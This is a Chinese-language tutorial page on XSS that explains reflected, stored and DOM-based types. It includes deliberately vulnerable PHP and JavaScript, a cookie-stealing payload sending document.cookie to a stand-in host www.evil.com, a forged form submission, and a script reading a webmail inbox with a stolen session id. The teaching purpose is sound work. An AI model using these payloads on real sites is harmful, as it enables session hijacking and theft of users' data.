 ### XSS简介
跨站脚本攻击(Cross Site Script)，通常是指黑客通过`html注入`篡改了网页，插入恶意脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击
```php
<?php
    $input = $_GET['param'];
    echo "<div>".$input
?>
```
在正常情况下，用户向param提交的数据会展示到页面中，比如提交
```html
http://www.a.com/test.php?param=这是一个测试
```
这时页面中会显示`这是一个测试`
但是如果提交了一段HTML代码
```html
http://www.a.com/test.php?param=<script>alert(/xss/)</script>
```
这时会在页面中显示`<div><script>alert(/xss/)</script><div>`，这显然是开发者不希望看到的
三种类型的XSS:
1. 反射型XSS
将输入数据`反射`给浏览器。也就是说，黑客往往需要诱导用户点击一个恶意链接，才能攻击成功
2. 存储型XSS
把用户输入的数据存储到服务端。这种XSS具有很强的稳定性
3. DOM BASED XSS
通过修改页面的DOM节点形成的XSS，称之为DOM BASED XSS
```html
<script>
function test(){
    var str = document.getElementById("text").value;
    document.getElementById("t").innerHTML = "<a href='"+str+"'>testLink</a>";
}
</script>
<div id="t"></div>
<input type="text" id="text" value="" />
<input type="button" id="s" value="write" onclick="test()" />
```

### XSS攻击进阶
用以完成各种具体功能的恶意脚本，被称为`XSS Payload`
一个最常见的XSS Payload就是通过读取浏览器的`Cookie`对象，从而发起`Cookie劫持`攻击
Cookie中一般加密保存了当前用户登录凭证。Cookie如果丢失。换句话说攻击者可以不通过密码。而直接登录进用户的账户
比如上面的例子中如果用户输入下面的
```html
http://www.a.com/test.html?abc="><script src=http://www.evil.com/evil.js></script>
```
真正的XSS Payload写在这个远程脚本中，避免直接在URL的参数里写入大量的JS代码
```js
var img = document.createElement("img");
img.src="http://www.evil.com/log?" + escape(document.cookie);
document.body.appendChild(img);
```
`Cookie劫持`并非所有的时候都会有效。有的网站可能会在Set-Cookie时给关键Cookie植入HttpOnly的标识；有的网站可能会把Cookie与客户端IP绑定，从而使得XSS窃取Cookie失去意义
模拟一个POST请求
```js
var dd = document.createElement("div");
document.body.appendChild(dd);
dd.innerHTML = `<form action="" method="post" id="xssform" name="mbform">
    <input type="hidden" value="JIUY" name="ck">
    <input type="text" value="testtest" name="mb_text">
</form>`;
document.getElementById('xssform').submit();
```
上面的代码自动模拟表单提交代码，自动提交表单
攻击者除了可以实施cookie劫持外，还能通过模拟GET, POST请求操作用户浏览器
```js
if(top.window.location.href.indexOf("sid=") > 0){
    var sid = top.window.location.href.substr(top.window.location.href.indexOf("sid=")+4, 24);
    var folder_url = "http://"+top.window.location.host+"/cfg-bin/mail_list?folderid=1&page=0&s=inbox&sid="+sid;
    var ajax = null;
    if(window.XMLHttpRequest){
        ajax = new XMLHttpRequest();
    }else if(window.ActiveXObject){
        ajax = new ActiveXObject("Microsoft.XMLHTTP");
    }else{
        return;
    }
}
ajax.open("GET", folder_url, true);
ajax.send(null);
ajax.onreadystatechange = function(){
    if(ajax.readyState == 4 && ajax.status == 200){
        alert(ajax.responsText);
    }
}
```
当有图片验证码时，XSS Payload可以通过读取页面内容，将验证码URL发送到远程服务器上来实施--攻击者可以在远程XSS后台接受当前验证码，并将验证码的值返回给前台的XSS Payload，从而绕过验证码

通过CSS来发现一个用户曾经访问过的网站















